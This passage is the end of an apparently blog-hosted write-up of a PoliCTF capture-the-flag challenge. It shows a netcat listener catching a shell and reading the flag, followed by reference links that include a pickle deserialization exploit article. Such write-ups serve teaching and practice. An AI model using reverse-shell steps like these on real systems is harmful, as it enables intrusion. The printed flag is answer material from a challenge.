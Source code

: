 Bingo we have a shell and the flag


```text
$ sudo nc -l -p 80
/bin/sh: 0: can't access tty; job control turned off
$ cat /home/polictf/flag
flag{c0w4bung4_p1zz4T1M3}
```



[pizzas]: {{ site.url }}/assets/images/pizza.jpg
[oven]: {{ site.url }}/assets/images/oven.jpg
[order]: {{ site.url }}/assets/images/order.jpg
[hmac]: {{ site.url }}/assets/images/hmac.jpg
[dev]: {{ site.url }}/assets/images/dev.jpg
[cook]: {{ site.url }}/assets/images/cook.jpg
[strings]: {{ site.url }}/assets/images/strings.jpg



[header]: http://mybrowseraddon.com/modify-header-value.html
[pickle]: https://docs.python.org/2/library/pickle.html
[pickle-rce]: https://blog.nelhage.com/2011/03/exploiting-pickle/